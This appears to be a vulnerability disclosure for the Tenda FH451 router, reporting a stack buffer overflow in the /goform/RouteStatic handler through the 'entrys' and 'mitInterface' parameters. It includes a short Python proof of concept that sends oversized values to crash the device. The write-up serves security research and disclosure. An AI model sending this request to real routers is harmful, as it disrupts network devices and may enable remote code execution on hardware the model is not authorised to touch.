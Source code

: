 # Tenda FH451 Vulnerability
This vulnerability lies in the `/goform/RouteStatic` page which influences the lastest version of Tenda [FH451_V1.0.0.5](https://www.tenda.com.cn/download/detail-1375.html). 
## Vulnerability Description
There is a stack-based buffer overflow vulnerability in function `fromRouteStatic`.

In function `fromRouteStatic` it reads 2 user provided parameters `entrys` and `mitInterface` into `v8` and `v7`, and these two variables are passed into function `sprintf` without any length check, which may overflow the stack-based buffer `s`.
![](https://github.com/Funcy33/Vluninfo_Repo/blob/main/CNVDs/F456/41/vlun1.png)

So by requesting the page `/goform/RouteStatic`, the attacker can easily perform a **Deny of Service Attack** or **Remote Code Execution** with carefully crafted overflow data.
## POC
```
import requests

IP = "10.10.10.1"
url = f"http://{IP}/goform/RouteStatic?"
url += "entrys=" + "s" * 0x200
url += "&mitInterface=" + "a" * 0x200

response = requests.get(url)
```
## Timeline
## Acknowledgment
Credit to [@XYlearn](https://github.com/XYlearn) and [@Funcy_kilar](https://github.com/Funcy33) from Fudan University, Guangzhou University.
